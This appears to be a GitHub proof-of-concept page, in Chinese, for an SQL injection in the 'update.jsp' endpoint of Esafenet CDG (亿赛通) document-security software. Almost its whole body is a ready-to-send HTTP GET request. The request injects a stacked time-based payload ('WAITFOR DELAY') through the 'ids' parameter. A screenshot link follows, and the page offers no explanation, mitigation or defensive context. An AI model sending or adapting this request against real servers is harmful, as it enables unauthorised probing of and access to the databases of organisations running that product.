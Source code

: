 ## 亿赛通update接口sql注入


## poc
```
GET /CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3);WAITFOR%20DELAY%20%270:0:1%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0E05880315C89F32A53653313D83EC57; JSESSIONID=ACDE6D30E6BCEC22E1F90536FEEBD951
Upgrade-Insecure-Requests: 1
Content-Length: 0

```

![bbcbc39875947528038008fe2d547f1c](https://github.com/wy876/POC/assets/139549762/67677f55-7833-4daf-8204-c166b9c49141)
